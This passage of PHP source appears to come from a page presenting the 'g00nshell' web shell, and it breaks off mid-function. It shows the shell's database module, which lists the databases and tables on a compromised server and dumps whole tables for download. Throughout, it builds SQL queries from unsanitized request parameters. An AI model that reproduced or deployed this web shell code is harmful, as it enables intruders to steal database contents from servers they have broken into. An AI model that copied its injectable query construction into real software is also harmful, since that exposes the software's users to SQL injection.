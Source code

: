         echo("&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $_GET['table'] . "&p=" . $z . "'&gt;" . $z . "&lt;/a&gt; | ");
      }
    }
    elseif($_GET['table'] && $_GET['sqlf']){
      switch($_GET['sqlf']){
        case "dl": sqldownload();break;
        case "ins": sqlinsert();break;
        default: $_GET['sqlf'] = "";
      }
    }
    else{
      echo("&lt;table&gt;");
      $query = "SHOW TABLES FROM " . $_GET['db'];
      $dat = mysql_query($query, $sqlcon) or die(mysql_error());
      while ($row = mysql_fetch_row($dat)){
        echo("&lt;tr&gt;&lt;td&gt;&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $row[0] ."'&gt;" . $row[0] . "&lt;/a&gt;&lt;/td&gt;&lt;td&gt;[&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $row[0] ."&sqlf=dl'&gt;Download&lt;/a&gt;]&lt;/td&gt;&lt;/tr&gt;\n");
      }
      echo("&lt;/table&gt;");
    }
  }
  else{
    $dbs=mysql_list_dbs($sqlcon);
    while($row = mysql_fetch_object($dbs)) {
      echo("&lt;a href='?act=sql&db=" . $row-&gt;Database . "'&gt;" . $row-&gt;Database . "&lt;/a&gt;&lt;br&gt;\n");
    }
  }
  mysql_close($sqlcon);
}
function sqldownload(){ // Download sql file function
  @ob_flush;
  $sqlcon = @mysql_connect($_SESSION['sql_host'] . ':' . $_SESSION['sql_port'], $_SESSION['sql_user'], $_SESSION['sql_password']);
  mysql_select_db($_GET['db'], $sqlcon);
  $query = "SHOW COLUMNS FROM " . $_GET['table'];
  $result = mysql_query($query, $sqlcon) or die(mysql_error());
  $fields = array();
  while($row = mysql_fetch_assoc($result)){
    array_push($fields, $row['Field']);
    $i++;
  }
  $result = mysql_query("SELECT * FROM " . $_GET['table'], $sqlcon) or die(mysql_error());
  $num_rows = mysql_num_rows($result) or die(mysql_error());
  for($x=1;$x&lt;$num_rows;$x++){
    $out .= "(";
    for($i=0;$i&lt;count($fields);$i++){
      $out .= "'";
      $query = "SELECT " . $fields[$i] . " FROM " . $_GET['table'] . " WHERE " . $fields[0] . " = '" . $x . "'";
      $dat = mysql_query($query, $sqlcon) or die(mysql_error());
      while($row = mysql_fetch_row($dat)){
        if($row[0] == ""){
          $row[0] = "NULL";
        }
        if($i != count($fields)-1){
          $out .= str_replace("\r\n", "\\r\\n", $row[0]) . "', ";
        }
        else{
          $out .= $row[0]. "'";
        }
      }

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png